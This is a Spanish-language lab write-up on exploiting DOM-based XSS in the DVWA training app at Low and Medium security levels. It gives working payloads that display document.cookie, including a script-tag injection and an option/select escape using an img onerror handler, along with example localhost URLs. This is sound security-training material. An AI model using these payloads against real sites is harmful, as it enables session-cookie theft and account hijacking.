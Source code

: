 # Explotación de XSS Basado en DOM en DVWA

# Nivel de Seguridad: Low

## Observación

Existe una opción para seleccionar el idioma.

El valor seleccionado es reflejado directamente en el parámetro GET default=English.

![PrimeraPagina](./Imagenes/DOMPrimeraImpresionlow.png)

## Explotación

Payload utilizado:
```
<script>alert(document.cookie);</script>
```
## Procedimiento:

Modificar el valor del parámetro default en la URL.

Inyectar el payload en dicho parámetro.

Resultado esperado:

Se dispara una ventana emergente (alert) mostrando las cookies actuales del navegador.

Ejemplo URL:
```
http://127.0.0.1:8081/vulnerabilities/xss_d/?default=<script>alert(document.cookie);</script>
```

Resultado:

![Comprobacion](./Imagenes/DOMEjecucionyresultadolow.png)

# Nivel de Seguridad: Medium

## Observación

En este nivel, el valor del parámetro se inserta dentro de una etiqueta <option>, lo que complica la explotación directa.

Además, el uso de etiquetas <script> está restringido.

Si ejecutamos el anterior apartado ahora con la seguridad al medio, veremos que no toma efecto alguno:

![aplicaiciondellowenmedio](./Imagenes/Medium/ejecuciondellowenmeium.png)

## Explotación

Para escapar de la etiqueta <option>, se debe cerrar manualmente las etiquetas HTML y aprovechar otra etiqueta que ejecute código, como "<img>".

Payload utilizado:

```
" ></option></select><img src=x onerror="alert(document.cookie)">
```

## Procedimiento:

Modificar el valor del parámetro default insertando el payload anterior.

Inyectarlo correctamente para cerrar las etiquetas abiertas y ejecutar código.

Resultado esperado:

Se produce un alert con el contenido de las cookies, validando la explotación exitosa del XSS basado en DOM.

Ejemplo URL:

```
http://127.0.0.1:8081/vulnerabilities/xss_d/?default="%20></option></select><img%20src=x%20onerror="alert(document.cookie)">
```

Resultado:

![Resultado seguridad medium](./Imagenes/Medium/DOMresultadomedium.png)

(Asegurarse de codificar correctamente la URL si se inserta manualmente.)